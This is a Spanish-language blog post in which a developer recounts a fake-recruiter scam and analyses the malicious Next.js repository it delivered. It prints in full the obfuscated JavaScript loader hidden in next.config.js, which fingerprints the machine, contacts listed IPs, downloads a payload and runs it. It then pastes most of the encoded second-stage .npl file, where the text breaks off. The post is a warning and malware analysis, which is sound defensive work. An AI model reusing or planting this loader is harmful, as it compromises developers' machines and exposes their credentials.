

> Si estás leyendo esto es porque te dedicas a la tecnología, probablemente al desarrollo de software. Como desarrolladores, tenemos un perfil muy jugoso para los hackers, sean del bando que sean. Piénsalo.

## Eres el blanco perfecto

**Nosotros tenemos:**

- Acceso a infraestructuras críticas: producción, backups, pipelines de CI/CD...

- Control sobre claves, tokens, entornos, tanto de desarrollo como de Producción, secretos...

- Visibilidad sobre código y decisiones de arquitectura.

- Roles de confianza en empresas grandes, PYMES y entidades u organismos públicos que gestionan infraestructuras críticas.

Cuanto más senior eres, más puertas puedes abrir. Y por tanto, más atractivo eres como objetivo. Este ataque iba dirigido a alguien como yo. O como tú.

### La trampa

A finales de abril de 2025, recibí un mensaje por LinkedIn de un tal _Elian Pérez_, supuestamente reclutador técnico de una empresa emergente relacionada con Blockchain y NFTs. El mensaje sonaba bien:

- Oferta remota como Technical Manager o desarrollador senior.

- Presupuesto aprobado de 3 millones.

- Salarios muy altos.

- MVP ya en marcha.

- Equipo Junior ineficaz. Necesitaban talento rápidamente.

Tras varios intercambios de mensajes Elian me pasó un enlace a su repositorio en Bitbucket. "Échale un ojo al MVP", me dijo.

## Algo huele raro

La empresa parecía real. Había una web, un dominio, incluso varios empleados en LinkedIn. Pero el perfil de _Elian_ tenía algo raro:

- Años de experiencia, pero casi sin publicaciones.

- Conexiones limitadas.

- Foto de perfil que parecía hecha con IA.

Descargué el código pero antes de ejecutarlo, decidí investigar un poco más. Lo primero que suelo hacer, antes de ejecutar nada, es buscar patrones, anti-patrones, buenas y malas prácticas y problemas de seguridad. Fue mi propia IA local, Tabby, la que me alertó del payload. No tardé ni cinco minutos en descubrirlo... Pero insisto, ya comencé mi auditoría oliéndome algo raro y mi pregunta a Tabby fue algo como "¿ves algo raro en éste archivo o en el repositorio? Me huele raro y no me fío de quien me lo ha enviado"...

Y así fue como comenzó la historia que te quería contar hoy.

## 🐍 \_\_ Un payload oculto \_\_ 🐍

Dentro del repositorio, todo parecía un proyecto típico de Next.js, quizá demasiado simple... El archivo `next.config.js` era otra historia. Lo que encontró tabby, por que a mí me pasó totalmente desapercibido, es que junto a la primera línea del archivo, que contenía un pequeño comentario, muy a la derecha, oculto tras muchos espacios en blanco, había un código JavaScript minificado y ofuscado.  


Al principio no entendí a Tabby, porque no vi la amenaza, pese a que estaba justo enfrente de mis narices, pero al hacer scroll horizontal, ahí estaba...



Claramente no era un archivo legítimo de configuración y decidí investigarlo.

### ¿Y qué hace todo esto? (🧪lab\_1)

Una vez identado y separado en un fichero aparte, pude analizarlo paso a paso. Como verás, No fue fácil: estaba lleno de trampas, funciones anidadas, ofuscación extrema y decenas de capas de indirectas.

```javascript
const aS = H;
(function (aD, aE) {
  const aQ = H,
    aF = aD();
  while (!![]) {
    try {
      const aG =
        (parseInt(aQ(0x166)) / 0x1) * (parseInt(aQ(0x165)) / 0x2) +
        parseInt(aQ(0x158)) / 0x3 +
        -parseInt(aQ(0x15b)) / 0x4 +
        parseInt(aQ(0x141)) / 0x5 +
        (-parseInt(aQ(0x140)) / 0x6) * (-parseInt(aQ(0x168)) / 0x7) +
        (-parseInt(aQ(0x16e)) / 0x8) * (parseInt(aQ(0x161)) / 0x9) +
        (-parseInt(aQ(0x156)) / 0xa) * (-parseInt(aQ(0x16a)) / 0xb);
      if (aG === aE) break;
      else aF["push"](aF["shift"]());
    } catch (aH) {
      aF["push"](aF["shift"]());
    }
  }
})(F, 0x46d1a);
const I = (function () {
    let aD = !![];
    return function (aE, aF) {
      const aG = aD
        ? function () {
            if (aF) {
              const aH = aF["apply"](aE, arguments);
              return (aF = null), aH;
            }
          }
        : function () {};
      return (aD = ![]), aG;
    };
  })(),
  K = I(this, function () {
    const aR = H;
    return K[aR(0x163)]()
      [aR(0x154)](aR(0x15e))
      ["toString"]()
      [aR(0x175)](K)
      ["search"](aR(0x15e));
  });
K();
const L = aS(0x16b),
  O = aS(0x15c),
  P = require("os"),
  Q = require("fs"),
  a0 = (aD) => (
    (s1 = aD[aS(0x160)](0x1)), Buffer[aS(0x159)](s1, O)[aS(0x163)](L)
  );
(rq = require(a0(aS(0x14b)))),
  (pt = require(a0(aS(0x172)))),
  (zv = require(a0(aS(0x173) + aS(0x16c)))),
  (ex = require(a0("tY2hpbGRfcHJ" + "vY2Vzcw"))[a0(aS(0x153))]),
  (hd = P[a0(aS(0x14e))]()),
  (hs = P[a0(aS(0x164))]()),
  (pl = P[a0(aS(0x148))]()),
  (uin = P[a0(aS(0x14f))]());
let a1;
const a2 = aS(0x162) + "=",
  a3 = ":124",
  a4 = (aD) => Buffer["from"](aD, O)[aS(0x163)](L);
var a5 = "",
  a6 = "";
const a7 = [0x30, 0xd0, 0x59, 0x18],
  a8 = (aD) => {
    const aT = aS;
    let aE = "";
    for (let aF = 0x0; aF < aD[aT(0x149)]; aF++)
      (rr = 0xff & (aD[aF] ^ a7[0x3 & aF])), (aE += String[aT(0x155)](rr));
    return aE;
  },
  a9 = aS(0x174),
  aa = aS(0x14d) + "U3luYw",
  ab = a4(aS(0x14c)),
  ac = a4("ZXhpc3RzU3lu" + "Yw");
function ad(aD) {
  return Q[ac](aD);
}
const ae = [0x1f, 0xba, 0x76],
  af = [0x1e, 0xa6, 0x2a, 0x7b, 0x5f, 0xb4, 0x3c],
  ag = () => {
    const aU = aS,
      aD = a4(a9),
      aE = a4(aa),
      aF = a8(af);
    let aG = pt["join"](hd, aF);
    try {
      (aH = aG), Q[ab](aH, { recursive: !0x0 });
    } catch (aK) {
      aG = hd;
    }
    var aH;
    const aI = "" + a5 + a8(ae) + a6,
      aJ = pt[aU(0x14a)](aG, a8(ah));
    try {
      !(function (aL) {
        const aV = aU,
          aM = a4(aV(0x167));
        Q[aM](aL);
      })(aJ);
    } catch (aL) {}
    rq[aD](aI, (aM, aN, aO) => {
      if (!aM) {
        try {
          Q[aE](aJ, aO);
        } catch (aP) {}
        ak(aG);
      }
    });
  },
  ah = [0x44, 0xb5, 0x2a, 0x6c, 0x1e, 0xba, 0x2a],
  ai = [0x1f, 0xa0],
  aj = [0x40, 0xb1, 0x3a, 0x73, 0x51, 0xb7, 0x3c, 0x36, 0x5a, 0xa3, 0x36, 0x76],
  ak = (aD) => {
    const aW = aS,
      aE = a4(a9),
      aF = a4(aa),
      aG = "" + a5 + a8(ai),
      aH = pt[aW(0x14a)](aD, a8(aj));
    ad(aH)
      ? ao(aD)
      : rq[aE](aG, (aI, aJ, aK) => {
          if (!aI) {
            try {
              Q[aF](aH, aK);
            } catch (aL) {}
            ao(aD);
          }
        });
  },
  al = [0x53, 0xb4],
  am = [
    0x16, 0xf6, 0x79, 0x76, 0x40, 0xbd, 0x79, 0x71, 0x10, 0xfd, 0x74, 0x6b,
    0x59, 0xbc, 0x3c, 0x76, 0x44,
  ],
  an = [0x5e, 0xbf, 0x3d, 0x7d, 0x6f, 0xbd, 0x36, 0x7c, 0x45, 0xbc, 0x3c, 0x6b],
  ao = (aD) => {
    const aX = aS,
      aE = a8(al) + "\x20\x22" + aD + "\x22\x20" + a8(am),
      aF = pt[aX(0x14a)](aD, a8(an));
    try {
      ad(aF)
        ? as(aD)
        : ex(aE, (aG, aH, aI) => {
            at(aD);
          });
    } catch (aG) {}
  },
  ap = [0x5e, 0xbf, 0x3d, 0x7d],
  aq = [0x5e, 0xa0, 0x34, 0x38, 0x1d, 0xfd, 0x29, 0x6a, 0x55, 0xb6, 0x30, 0x60],
  ar = [0x59, 0xbe, 0x2a, 0x6c, 0x51, 0xbc, 0x35],
  as = (aD) => {
    const aE = pt["join"](aD, a8(ah)),
      aF = a8(ap) + "\x20" + aE;
    try {
      ex(aF, (aG, aH, aI) => {});
    } catch (aG) {}
  },
  at = (aD) => {
    const aY = aS,
      aE = a8(aq) + "\x20\x22" + aD + "\x22\x20" + a8(ar),
      aF = pt[aY(0x14a)](aD, a8(an));
    try {
      ad(aF)
        ? as(aD)
        : ex(aE, (aG, aH, aI) => {
            as(aD);
          });
    } catch (aG) {}
  };
(s_url = aS(0x15d)), (sForm = a0(aS(0x147))), (surl = a0(aS(0x15d)));
const au = a4(aS(0x171));
function H(a, b) {
  const c = F();
  return (
    (H = function (d, e) {
      d = d - 0x140;
      let f = c[d];
      return f;
    }),
    H(a, b)
  );
}
let av = aS(0x144);
const aw = async (aD) => {
    const b0 = aS,
      aE = ((aH) => {
        const aZ = H;
        let aI = 0x0 == aH ? aZ(0x151) + aZ(0x145) : aZ(0x15f) + aZ(0x16d);
        for (var aJ = "", aK = "", aL = "", aM = 0x0; aM < 0x4; aM++)
          (aJ += aI[0x2 * aM] + aI[0x2 * aM + 0x1]),
            (aK += aI[0x8 + 0x2 * aM] + aI[0x9 + 0x2 * aM]),
            (aL += aI[0x10 + aM]);
        return a4(a2[aZ(0x15a)](0x1)) + a4(aK + aJ + aL) + a3 + "4";
      })(aD),
      aF = a4(a9);
    let aG = aE + b0(0x143);
    (aG += b0(0x157)),
      rq[aF](aG, (aH, aI, aJ) => {
        aH
          ? aD < 0x1 && aw(0x1)
          : ((aK) => {
              const b1 = H;
              if (0x0 == aK[b1(0x154)](b1(0x152))) {
                let aL = "";
                try {
                  for (let aM = 0x3; aM < aK[b1(0x149)]; aM++) aL += aK[aM];
                  (arr = a4(aL)),
                    (arr = arr[b1(0x146)](",")),
                    (a5 = a4(a2[b1(0x15a)](0x1)) + arr[0x0] + a3 + "4"),
                    (a6 = arr[0x1]);
                } catch (aN) {
                  return 0x0;
                }
                return 0x1;
              }
              return 0x0;
            })(aJ) > 0x0 && (ax(), az());
      });
  },
  ax = async () => {
    const b2 = aS;
    (av = hs), "d" == pl[0x0] && (av = av + "+" + uin[a4(b2(0x16f))]);
    let aD = b2(0x170);
    try {
      aD += zv[a4(b2(0x169))][0x1];
    } catch (aE) {}
    ay("oqr", aD);
  },
  ay = async (aD, aE) => {
    const b3 = aS,
      aF = { ts: a1, type: a6, hid: av, ss: aD, cc: aE },
      aG = { [surl]: "" + a5 + a4(b3(0x142)), [sForm]: aF };
    try {
      rq[au](aG, (aH, aI, aJ) => {});
    } catch (aH) {}
  },
  az = async () =>
    await new Promise((aD, aE) => {
      ag();
    });
var aA = 0x0;
const aB = async () => {
  const b4 = aS;
  try {
    (a1 = Date[b4(0x150)]()[b4(0x163)]()), await aw(0x0);
  } catch (aD) {}
};
function F() {
  const b5 = [
    "MTc5MzM=",
    "704776XcIsUB",
    "dXNlcm5hbWU",
    "4A1",
    "cG9zdA",
    "tcGF0aA",
    "Ybm9kZTpwcm9",
    "Z2V0",
    "constructor",
    "6GIhNLI",
    "177330uvjtwe",
    "L2tleXM",
    "/s/",
    "cmp",
    "OTIu====",
    "split",
    "cZm9ybURhdGE",
    "YcGxhdGZvcm0",
    "length",
    "join",
    "AcmVxdWVzdA",
    "bWtkaXJTeW5j",
    "d3JpdGVGaWxl",
    "RaG9tZWRpcg",
    "ZdXNlckluZm8",
    "now",
    "NDcuMTE4Mzgu",
    "ZT3",
    "sZXhlYw",
    "search",
    "fromCharCode",
    "2660600VygmMI",
    "bc7f301710f4",
    "810189YRoXjW",
    "from",
    "substring",
    "871972JtXaNK",
    "base64",
    "adXJs",
    "(((.+)+)+)+$",
    "LjEzNS4xOTUu",
    "slice",
    "54gVKMRW",
    "aaHR0cDovLw=",
    "toString",
    "EaG9zdG5hbWU",
    "68774xrQFIJ",
    "13xuwWYi",
    "cm1TeW5j",
    "126203qHmhCQ",
    "YXJndg",
    "11zmpQVh",
    "utf8",
    "jZXNz",
  ];
  F = function () {
    return b5;
  };
  return F();
}
aB();
let aC = setInterval(() => {
  (aA += 0x1) < 0x3 ? aB() : clearInterval(aC);
}, 0x93f30);
```

Me quedó claro que este código se quería conectar a algún sitio y descargar y ejecutar algo, pero ¿qué? ¿desde dónde?

Lo más interesante era cómo construía la URL de contacto con el servidor. Usaba funciones como \`Buffer.from(...).toString(...)\` y constantes ofuscadas dentro de un array llamado \`b5\`. Algunas eran claramente bases codificadas en Base64 (incluso truncadas o invertidas). Y no fue muy complicado extraer su contenido real... Pero intenté muchas veces descifrar la IP completa a la que se iba a conectar. Logré deducir fragmentos con bastante certeza, pero nunca pude reconstruir la IP completa con certeza porque siempre llegaba a un número, .11838. Sabía que estaba ahí, cerca, pero no terminaba de salir. Y claro, si no podía ver a dónde se conectaba, no podía saber qué se descargaba exactamente.

### Cazando al cazador: el análisis dinámico (🧪lab\_2)

Como no conseguía reconstruir la IP con precisión ni saber qué se iba a descargar, tomé una decisión: levantar una máquina virtual completamente aislada de mi máquina (lo hice en Azure por facilidad) para ejecutar el código bajo vigilancia.

> Si no podía ver a dónde iba… al menos vería a dónde llegaba.

Preparé la VM como un pequeño laboratorio forense. Le instalé:

- `tcpdump` para capturar todo el tráfico saliente en crudo.

- `tshark` para extraer patrones e IPs rápidamente.

- Unos cuantos scripts caseros para monitorizar cambios en el sistema de archivos (creación, modificación, nombre y timestamp).

Cloné el repositorio, instalé las dependencias con npm isntall, lancé mis herrmaientas de onitorización (captura de tráfico y eventos del sistema de ficheros) y ejecuté el proyecto siguiendo las instrucciones de su README.md.  
  
Se levantó el servidor y al instante, el malware empezó a moverse por debajo (todo esto lo averigué con varios comandos de consola que podéis ver en el repositorio):

- Se generó un archivo oculto llamado `.npl` directamente en el home del usuario.

- Se estableció una conexión a la IP `38.92.47.118`, por el puerto 1244, mediante un GET a un endpoint muy sospechoso: `/s/bc7f301710f4`. (La IP que yo había detectado tenía tres partes: .92, .47 y .11838, no sé como no lo vi antes, pero ahora estaba super claro)

- También detecté actividad paralela con otras dos IPs: `165.140.86.173` y `103.70.115.38`. Una recibía peticiones POST. La otra, atención: intentó hacer handshake por SSH con la máquina. (Aún no entiendo el objetivo, pero sí que era bastante sofisticado)

Todo esto sucedió **automáticamente** y **sin ninguna acción por parte del usuario**. Bastaba clonar el repositorio, instalar dependencias y arrancar el entorno.

Tocaba pararlo todo y volver al análisis estático, qué es eso que se acaba de descargar, ¿Qué tiene este fichero .npl? Una vez lo abres, el fichero .npl tiene esta pinta:

```bash
sType = 'ZU3GTVq1'

pq="tXt3rqfmL0"+"2UHGH9R~m|JQWiyE=E^u2P;}10SO;C2P+#@3kn1-e_b6G6a@kyC<aym0!}g$F&RT00}?V5a8pqe0s~uke_b6AM^XtXI~!LQSvfKnVon}IEKfvtJq%V6Sxz!#a26CEC?WtI9s?W%2R1@uDhFj1AzvPKJ`qI$6eTM@8%#<d22&_>2_H)y2oM_^H9HF{HVO+PVG>^;LP;hHZzpmDFd`WpKObB<HVt1jK0J0G0}m+)HZor*KvG*4U_)s|KOzNuY8^xr0SpQl3K~QgL?K!nIxbQ?04h}vFaruXNj?k<Z#QKbBqb|9Gfh?(0V4w%4G>2b90>sncN|*_05m=eASYG?8y6mbC_rLHLL~t%5FrL0IVdItcLZr7NL3|&HZUASH8D4RJQqVb7Xm#d2sw2CLnI~%8$V`47Zf2aY65yWC@vfwEdx>l2_YZ~Xc`1KT2><l9t>6rL?1joU=;!r9t2-}3N>~>22ef;J1uK82MR_37BF}yDLf{9Z##DtBmh`rAwfYEHdZ<h8zT!t0URDBF$@6%LtYyg2sK(1H4-^H8#sPhMG+|oY&ly>IWhoyA`DnT8YCbi077ag7Z6o6E)#J|6BidBJ{JHwM=3WnY7$2o0SzE^0wM)F2|g<gYc~Ze1Ychm9~whLK>%4bY7hr8Iu9HO03RG4MN%~?U=UJAKPg!!ISxc!NHtq}G(2AcBRnSt0zh6_11LKJFiccJ5L6iiYE4i)1Sk(9Gc!Y35+Vb9Ee>@*1|I@rF(OJDNCjLx2p(1nM<fX)X+Q&AJ`Wu=b6a~$J~9s{Xg*sL1QZ1V4ikJI77jZU4K4*LS^+vFDn4I79yMGh2^@GC5(*$cY!i3_C?hoh4;xEM6%9BG2qj!yCN%|qG9XJP1RnwmU<7dp8(uj)A~kS86E`IS5e{W0Gz%9EJ{n;G5KsVPJr!v=5>{Uv3lLXIIaM_W4kCLqDIQz_2_;1xULGAOGBr^hULrXoY5`+2GATJL6(2<aS`I!REHz&`9WDSQ5f)w<J1!L=3Lsz{JSbZP7Z+Y3MlTs3cN|4H7cT;MKQl%P1|lFIb4^qfCSEEPJ0C(TC>1V$YbSj<HdZe!VLxI43pG0gG8{(=0s|*FZ7fg_FdRR7Y&=O_0X_#S3<n1x5-I>XVL53QKM)KrB40^FL{u3xAR1>KGgdAe3qk@FB~&{+cML`$S^yL(b0b<J5+MZvD>i&J2oWMS7Cj3<GgKlvXcc=tLmw$SGfe^lM=T)=b3|o65)nHM7D8n}9RmjmHyd;yIVcEcHXdUzLoE({3^@xY6#*3oJ3UKFBT*=O6(nCp9ReSCH#u|wCj=EEZ2(Y9Arb=yB25AlFbF*=E<<1&2oWa)ZajGvM^+UeF$GE$H7y$^C@xns2{9%r6aq;q7brC$5ddU0J~29YXg>o(1rA&^Y%mKk05k%4IUol%9wG{S4@X@p2_FeRGdlr6GgAr(GzNJi5<easX-s?;It?2Q5IbolJq14`DnVH&9s?dBHX3jx1Xd+Db0<PN9SST5b0=0P79IwB3oc$eH6khx84h1RI14ToY#DwOKO;FVEDi!0Bq$vSDjZ)JNDdVS2|PnSULjZnb6-*&03{SFDll;%H8&vvApr*(7%mq%U^7HYIUxll5llfNISC9uC<H`9DKrTL4@X2i7hhfg6if;TDFG)KG%!OW2{H@>b1iBX7&2Tq9W8eqBo_>OA3_QQ95M_R7dmoAD<URz2rXqxIv)!IA0J#iFgGJL3p#Wm928h%X*yp@Cm{tsIRSVe2|fiX3<gjoJ})#PKMn*jMP3MX78Yqd9w-kE79mj(0{}b&03=rgCm<I-H(O&lM=A$+Z!&u`L@FB}Z!lj7T0T7uXgppE2q-BwEI|M<7aS=*9sy%JI3Xt{0!KtKH#9yEU?P4$3nDZsB3n@x2MrhrJt1}qULjQhZC_#r6E<ELI|LXrK~+3?3m*hOClp^HJ|Y+;H&P2e7F&KcIRsy0X)Sp=JU#{wU=w);K0F9`JQ`R#Mp7s$2tr#yAs!hzFEwxgJW(kkGDd#@LN+KAI~-UxBR?2tD-H)8AW%306aip7HXtG!F+v9!D^n&t9{^f05F9KxcSRTlM^hUp69;t_KLI5OF*XGw89pQmFdhLoNKspP0u^ODMF1uT7DsU)1Qj$cJR(3fH7Fr90YO|iS}`LvEDTpR2tO+tZ68o80t5~}6aZlYG&ddqA|p~jB@6;93l4k+A}KE!6)|}eH9tH#YX)=$A6^J9DKK;gDGUb%Z$Ekp2`mOL3Pxo_MG-gy8by9I05LfxFC<k)5ETU{H#Kq<6DK_y5=;XSI4c?{3SU7%LQ(@I934hCNCX)cD?N8QJ1t%SDivM^GzAy}2q!``8x}Ys97KN#7b#hJVL@UYCJi16K0;&w8c8)cJw;?IH(whnDIj42H40yQ7BUMa9xn$yY(Hi=AwD%KJ~#vj6%8*AcS1=ZKVAYhJrPhCArB)qY7t~UIR`unA`^Nr5G*t~4-fz*9Stmc7bRX9B@!DHIxun^7cfFT7dv@B90eFF2|95a88sgoJr_~}1|=weAP__)I|x}79~uf>6;>p94jEA@0tp>-5-m|85+5Ib0b2qKM<fFW78_YAAqpmcVIc(*1yMN!0x=3Z76=I^KOzcCGc7ta4;@4pD^fWsI!s>*5=|U?E*w<?BqUfVGZ6+m6do=BXct&L1S?%W6h#6$G7TLe4mDH;IbR$mEnjv*J|H`I4=q&$AygazZXaVEBrGR67Z_t690OZ^GB#30AQl=V3jkv}MlU%dGdM>BA733m3lexi82}?38Z1FZ8Z!fWHxUC16%|H3GC)`b8XQ|=AU6jQ0S`JBFc?J>8y7AuAr(RpCRaKjI$vEsI93EWF->3~15gQc0u@3k0w5^`a|}uxHc%dUH9TQBLO%{UIRRu4Bs^O`G64fT9RmO@G5}FLC^HT|8Yg56HU~Zi3m{7*M+IFWA0t#9FkT-HJw#y{2M!+!5d(K01`H+#J_TSaKrR9a8v=Ji5>#0UZby6>K`vM$8ZLJtLmw-DK0a9;97#APD>ZUOI5RFaZ6a3!CNM^SIS^euD;FaJcLirX5D)+_5=?(E2rU;mcQ<rA01O0vA39njNm3~bJuGDzLJuH*793a#CIwX%Z2}8BG+$X3DLNPsI8i?VG(AB)HWL6800ep-As{#=6c<tuCk{LnXgFsl2o42(6FN%}13oJ&8Vq1Q97#JSHXC0bI3rmDB0y?AD_#{34o7@EJS-<FAUQ@QB@Q1r7BNaV8a7^h07r3I2p|=E6cc+2Aq6@QFAPQ@5CJ+XXb=lHL{JMWEE)?RMk*Qx6C7IsK}kXt6F5~EH6J8D0ZnF08wCV<X(M4iLJtWUIYf9$NCh1LI~8~~G&MdLa|J~kAp<5WX&6EQA_pINED%~67Zp?<6%A_>IVmJ4Z$?}q6;Td+6&+Cu9|R}_EFeTXDKRKDJTVF-01E{M0TxLs7$+h-EjB_Y7(XO>ZVnhZ8xcJ|YCuUdIZ+B{8a{RiAW2>uA0=7~Ng*OSY&bv%GZhsE2m^WuBVHgCFAY^FK@B=JHa%JcAOavBDnv&c1Wf>A9uZ$hI0!r=J}!A(906V{X+>lpMmAJ9H!)l|G8GCnZZT;VLn8}yGe>qAGZ7alF*A7tK?5NzJvCQHH%&h#JS1j97ztVk05)D4Ko$oXGCWBO2p?P?2moXsLsm2aZAExL5FuG9Y9Ln?1YRB~YhOkq1XTufY#0SG5&%?VHD3ZGK@|mhAwdH+T1hK476nup2O%^*2|fZJDN#EL0V8-vJp=+LE<HgD0uVGkYZeM!A|5pYH!yS<D=Jz75FG(KGYtd{Dl=Fk8WJQQVG>zCHV9oCZ6s+WB^(_JHAPkt8!=fbITv;)J5me}Y8nJXLoo^=A2N1121z0aIy?gzCRRHd3NT<pH$OWF93){&2M;I+D;9VYB@ZuS6*yfS3o}|ZD-Hqy3mhc^Ej>{?Nfa75A2nY@DFhA=b1{Bh3oum}2|`>tClDfjYaV|d8WuGhZ5u~RBPA+54+Ba?3sE5=5GPAVB@_u`6b@8CB?K!R8w7hbKps2+DF=B0MPCX!HwPFXFi<oOFc5x5JzonuYZzh~7f@7u5d&Bm76>OPAueD*H!UCvK1^3f2LcBGb1Viz85B2TAx3gaDJ@?#Ek1QRMLrxpJ}zenHV`X(Y9w(ND^V&vY!O2MCKnnCKSEhbL;_rTH6UFf0VF~^JQ-Ok7Aig%ECx~l9|}DkY%ys$5(!j#4kURKA0R3_956{kG$j>2Z#ZyW1t9_s9{^B5BLX)g941yELM}f&X(w7UJ~mY}Ef9YvL_RbCHa2EOCl?4bGAC&$88a0L2pdW(6bU+b8Cz!n2Ot<EK0;CxM^iL-cLZ1@C?7W>X&nSTIubQ66bED|CI>=(A}0nhApkc6DK|$!I2JxUJ~eS4K0g&D3NvN}J0Deg6g^5PJ{%=B8W?2(IZ+NT77_t8NDwF)5duj&8WBAhEh2O?B~n{CKRrV>UL`&+8wOn(B_IHL5FCCa90~<|93omrBNqreC>lvR9uWn83QPq{GgK@dEkRy42`@Mw6h(DE0#++$IYC4LI#xd^8X^H4DHmQC4<=b2NGn-%X<tDH3rQ(295_HQAtxOe7A0pFJ108`3^jWs7Cbrw3^+p`0Z<Ai7BUAU0$(p0C?Z)T7+)@Y6cP#pL{%?z4M0>LB|cbwC`Um!2QdkB3Jrf*S_%UKJR4gBI08Bk93ONx9V$Y39ydV&KrI6S9{~hELmpXp8U}F%7d0;w88&)BDKs}Z5jzV#MIktJHXCvlKr<T%Is^a~ClDPyb3A<}8dDD)4L?>311cl~6-IY9Mo9-8Zy8!Y6c8SDXhCNhI94eKF&t4bK1~`KYC~HvH%T`xEKPn{9wQxl3NvdTD^M>KJ4RMZK_ng=3M2*>J24#=J3MDfA~7R2IYb;4B2^tWFfAMq1_VL_4<G|s77IIdVH#8?7a<NJ4MSBMFa;Za3^HRBHzHgV6DNEgAvZk~KNnpXJPIg39ven07b{*a4h;$fNHti0a|L=d76K`I4*&})01^fUYz2BbM=}E=IzoCkCsH5*7CmGaLlY<g88vAID;FRx2pd>F8c;VqKNSQ+T2l^nA~s4kB@|QwJ3d`GK>`;c87_7z6Baob6($QhUIz{+FGgB1Mlv*b97jM#C?gaLU?Kw{CNy0wFa<<81p-0?a}HxSK~xVFKVMNcNHGQvDI`HQKm;ITHy?F9C{$b&DL7V3Is{%i2@MA{9Sd3yEgK3NH!vt1GZlRW0WUNeEH+9@9~M|9G7v#K15;E43lm;MA`w{)Eg)JoK?EonZY@|U5;9aR4If(_9VlKOKNDjn6fzGWIzUh*84DvE0zzdUC?p0u9S(9dS||Yk6&Y1RNK;xkYywgw0SQ@r0wsD81YavF3_43EMj<<NFBN|jNew;-6aYd47Zye>7bZzv9wAvH4qHncG88C3GcjXC3kobA2_t<vUOz7bAO~47H3K;)DLr8zBM>2dDj)_I1}7sv83j@%2vi0I2{#H91Roy&JQrp<LNN;qVIc(>5<fU7cM)O;KO{8-3>;TQKQ$bCXa);QS^*(>KQLrn0st%@ZZHBi0s>fiGzU;P1_NIQDLZ#MMHd7e5?gT)G6NrZ5F}wLHw!{LGZR$?2naMO05}310wN|FZ3bgE5GPe03jtnTKP_82Xh(i10Z}&?94>weBo{e;Dl<zHH#8ItA~JD2Km#Z=GZ$te6F&hvYCvEMH3U0<JS1r_A4yphJ0E%g1vFG05f%d|Bn=uZXd`(869EG?D?DT;Kq@|XG!l3e5>x^Y06_{IK~^;YY(+#yKqDm>HYZCs6G>bm5kz?rNCE^aYdTUIS_B_-A{u``IR{z@4-Nu07Ca?7Y)k@62@*UeFD6+#A5kcOAv<CPIt3>iH$nhL94{_8A~^&$B`#b&XhKUNNf0IpGeUbgNj6*<7ENOX2_QTqDg$Q|J_`j74<;NND+w$XVLEvQUQi1iH8W->88Zn4F%x}VKnN}mH$`RzLN`AgcNS7B6D>D3E;kB3M=2LBHYR;GGY20f6eDsu85~(AcR*zeI|x-FFFIW@D+fD%As1pE7zrf{D+P5IH%VA}6cA}OKoTe#IUNK*AOSQ2G9h_BK{q278W3X`Kvf+fYfVWsARsF(95_)I0zX_99}QMO7!3&>DJ)bMJtYn!3nO?QK2}^93lKvkMmGc)X&7fXJp~6U7A8g@AqXcVZaHxgT2MF!E=^__L<&0}H$7`XDJeV@F+5ucNl_IZ4ia!fDGw=hcPv#95ETO@79vCdIxGu6a|U%cMJOwH0xeW0T2ed;8Zinh5;Pw_Fd9}JAU<4q3Nu?-M;{3pDm@$^5(QWUEHQNpCL$FY86`^}I93HN5hZ6c9~K%pYzzZB2PGnS4m$ui8V&<{HxqjbMKn2e6*YMyCM^^@AtiDI1r#DL00UY&JV_@O2q9fcBvm<dZX^Q)9#AeEGyr!LIt5*MIztB-16B(u5d~)%L@pX2Gz|bC6;fL|3>#Gn1uH2#a~^sFK2awpG8Sh#3oIUE6F+||UNR#+3`KWCH4GFvX(t#a6kj6`Fc(r6Ar)I4JRxKm2^1e^U^__*B2*p)DmZC6C>ARpEGI)jL{lUO8U#@sK0g>b3Po@eKPU(sDK}Ik7ZL<@93ELV23`Xm7D7@h9bQ`oI}S!495Dqu5CvRDJ|YYWGz0=15Fs2O9T)~59ab1E05f??BVP_QcLsO{JuV`6Hya!XC?z`%H%DDDCO!dqFa%c$BRpCS2{>dJ0T(qNGFxgHD+?MQA1z=N1W6nqJX>WuHxv|qEF@JKI43W49}Qd)LKgrTJu+(@B`XzrHUa`RA}cxwIxcBO2Nfke6aoPVKqV9$5*`CxH$NbJJSJK?IV@TkEHZH$A|opT0X+ajFjWA3I{{oKBrzKl3^-98AT&93Z6O#ZCI}cHY#)9>I4E2mEJ1cS957j9KOhDwG&Ko+IUi&<J2Mo1VG?`>HV`@>H3N1UJ}q5;2^L3LI}buCE(HJsMO6VOI|2YBK{PBDU?O!885}fyIR|<o90WfJIsjt@1t|<IJP-gy1Qrw{EJ0l`LQ)hyZ#GH?7#<}lAqPPq9UevrJtJT{GCnLXb0bC(H4!@x5+wu~M-du03;}j9HwpqDX&?qD8wm$>4;EBLIxI#m4mem!5CT0p4k1T77XlzQ05(<-H5?)@Z$@b_D^Xi6KRjU+1qlcOX&_NE7%&eXAWcId6g&$9Xh9eyM?4uIA_f6BAyy20VOwQ2C{{Hp0!&yjB0L>5YaVG?6dpSwF<(S9Mo<|wGGBQ#6$e=sX-!lh5Ge;g7c*ELCRQN=3}1E=J^~3CA1-+yKQ$W&U_e6#H4+0S2?R+zMKdHH4<!XZ8xaQr3>a}DKr1&JHwRru1r9$20TEpX6&G6t7dr$MB{LKaATVSIA5|3<5H(*YBMA$8G%au(JSh$oECqTN2P`go2|Zv&CSF}DX+KmeFbxJA6DI{VIubNB4kTJaH3~l>A`)OIFfA;76fAHZ0SgrwG93#lLNi7<FhxZbL?;7d3KKvD0wWGJA~{wkAt6~U3kGKcCmvfA0W)1dKLHOIEj3?C7+x<QD=cII1z#y8FBwA$Ck|NxGcHg|Iv`pG8b@^^Jts6ID=c3C0un9(JrYGT3sx=$C__R#3sMynJ{fRIFa%pTISyMFS}g`+79dqaI3xlUJQoWD98@NLZx~k-J1hnt8%;qL6a@qU9x@n52v-hcC`5k|Au<>z7cNyFH~<)YG#*t;Ct